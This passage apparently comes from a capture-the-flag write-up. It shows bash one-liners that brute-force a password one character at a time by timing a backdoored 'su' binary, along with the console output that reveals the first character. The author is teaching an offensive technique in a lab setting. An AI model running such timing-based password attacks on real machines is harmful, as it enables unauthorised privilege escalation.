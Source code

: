 Running this shows that the standard wrong character is around 1.01 or 1.02 seconds:

```

jack@toby:/etc$ python3 -c 'import string; print("\n".join(string.printable[:10]))' | while read c; do echo -en "$c "; echo "${c}---------" | time su 2>&1 | grep -Eo '.:..\...elapsed'; done
0 0:01.01elapsed
1 0:01.02elapsed
2 0:01.01elapsed
3 0:01.01elapsed
4 0:01.02elapsed
5 0:01.01elapsed
6 0:01.01elapsed
7 0:01.01elapsed
8 0:01.01elapsed
9 0:01.01elapsed

```

I’ll use another `grep` to remove lines with “0:01.0” from the results. I’ll also use a `\r` character on the first `echo` so that if nothing is found, it prints over the previous character, which allows me to watch as the checks progress without flooding the terminal. Finally, I’ll add a break if something is printed:

```

python3 -c 'import string; print("\n".join(string.printable[:-5]))' 
| while read c; do 
    echo -en "\r$c "; 
    echo "${c}---------" 
    | time su 2>&1 
    | grep -Eo '.:..\...elapsed' 
    | grep -v "0:01.0" && break; 
done

```

This works, and finds the first character of the password:

```

jack@toby:/etc$ python3 -c 'import string; print("\n".join(string.printable[:-5]))' | while read c; do echo -en "\r$c "; echo "${c}---------" | time su 2>&1 | grep -Eo '.:..\...elapsed' | grep -v "0:01.0" && break; done
T 0:01.11elapsed

```

Here’s how it looks (starting midway into the run):

![brute poc](https://0xdfimages.gitlab.io/img/toby-brute-poc.gif)

#### Full Script

At this point, I am going to leave this bash one liner in favor of a bash script. I have to make the following updates:
- I know the password is ten characters, so I’ll wrap what I have in a loop over 0-9. It also takes 0.1 seconds longer per correct character, so I’ll use that `i` variable to update the `grep`.
- To print the password plus padding to get to 10 characters I’ll use `printf` instead of `echo`.
- I also want to keep a variable with the correct password. I have to get rid of piping into `while read`, as that [runs in a subshell](https://unix.stackexchange.com/questions/402750/modify-global-variable-in-while-loop), which means changes I make to the variable aren’t saved. A slight change in how I feed into the `while` fixes that.
- I’ll update the password on each loop.
